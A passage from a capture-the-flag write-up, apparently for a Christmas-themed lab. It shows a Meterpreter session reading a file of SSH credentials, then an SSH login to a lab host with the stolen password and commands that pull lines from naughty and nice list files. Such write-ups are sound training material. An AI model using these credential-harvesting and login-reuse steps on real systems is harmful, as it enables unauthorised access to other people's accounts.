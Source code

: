 ~~~

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-08 13:12:44 -0800  ssh-creds.txt

meterpreter > cat ssh-creds.txt
santa:rudolphrednosedreindeer
~~~

That was easier than expected :)

Answer: `rudolphrednosedreindeer`

## #3 - Who is on line 148 of the naughty list?

Now, we can connect directly with `ssh santa@10.10.223.120` and password `rudolphrednosedreindeer`. Let's search for a file which would be the *naughty list*:

~~~
[santa@ip-10-10-223-120 ~]$ cd / && find / -iname *naughty* 2>/dev/null
/home/santa/naughty_list.txt
[santa@ip-10-10-223-120 /]$ sed -n 148p /home/santa/naughty_list.txt 
Melisa Vanhoose
~~~

## #4 - Who is on line 52 of the nice list?

The *nice list* is also in Santa's `home` directory. Let's find the name on line 52:
~~~
[santa@ip-10-10-223-120 ~]$ sed -n 52p /home/santa/nice_list.txt 
Lindsey Gaffney
~~~
